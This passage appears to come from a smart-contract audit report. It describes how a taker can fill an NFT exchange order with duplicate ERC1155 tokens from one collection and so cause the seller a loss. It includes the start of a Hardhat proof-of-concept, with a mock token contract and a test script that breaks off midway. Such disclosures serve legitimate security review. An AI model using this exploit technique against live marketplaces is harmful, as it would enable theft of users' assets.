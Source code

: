 and the taker provides
```
[
    {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
    },
    {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
    }
];
```

The taker can grabs two `mock1155Contract1` tokens by paying the order which tries to sell a `mock1155Contract1` token and a `mock1155Contract2` token. When `mock1155Contract1` is much more expensive, the victim user will suffer from a huge loss.

As for the approving issue, the users may grant the contract unlimited access, or they may have another order which sells `mock1155Contract1` tokens. The attack is easy to perform.

## Proof of Concept
First put the `MockERC1155.sol` under the `contracts/` directory:
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity 0.8.14;
import {ERC1155URIStorage} from '@openzeppelin/contracts/token/ERC1155/extensions/ERC1155URIStorage.sol';
import {ERC1155} from '@openzeppelin/contracts/token/ERC1155/ERC1155.sol';
import {Ownable} from '@openzeppelin/contracts/access/Ownable.sol';

contract MockERC1155 is ERC1155URIStorage, Ownable {
  uint256 numMints;

  constructor(string memory uri) ERC1155(uri) {}

  function mint(address to, uint256 id, uint256 amount, bytes memory data) external onlyOwner {
    super._mint(to, id, amount, data);
  }
}
```

And then put `poc.js` under the `test/` directory.
```js
const { expect } = require('chai');
const { ethers, network } = require('hardhat');
const { deployContract, NULL_ADDRESS, nowSeconds } = require('../tasks/utils');
const {
  getCurrentSignedOrderPrice,
  approveERC20,
  grantApprovals,
  signOBOrder
} = require('../helpers/orders');

async function prepare1155OBOrder(user, chainId, signer, order, infinityExchange) {
  // grant approvals
  const approvals = await grantApprovals(user, order, signer, infinityExchange.address);
  if (!approvals) {
    return undefined;
  }

  // sign order
  const signedOBOrder = await signOBOrder(chainId, infinityExchange.address, order, signer);

  const isSigValid = await infinityExchange.verifyOrderSig(signedOBOrder);
```